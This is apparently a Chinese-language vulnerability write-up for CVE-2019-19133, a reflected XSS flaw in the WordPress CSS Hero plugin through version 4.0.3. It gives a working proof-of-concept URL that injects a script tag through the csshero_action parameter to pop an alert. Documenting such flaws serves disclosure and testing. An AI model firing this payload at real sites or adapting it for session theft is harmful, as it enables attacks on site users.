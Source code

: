 # （CVE-2019-19133）WordPress Plugin - CSS Hero 4.0.3 反射 xss

> 原文：[http://book.iwonder.run/0day/Wordpress/11.html](http://book.iwonder.run/0day/Wordpress/11.html)

## 一、漏洞简介

## 二、漏洞影响

CSS Hero 插件 (<= v.4.0.3)

## 三、复现过程

首先 WordPress 应用中确保 CSS Hero Plugin 安装。

poc

```
hxxp://
0-sec.org/?csshero_action=edit_page&rand=1015&foo%22%3E%3C/iframe%3E%3Cscript%3Ealert(%27Reflected%20XSS%20in%20CSS%20Hero%204.0.3%27)%3C/script%3E%3Ciframe%3Ebar 
```

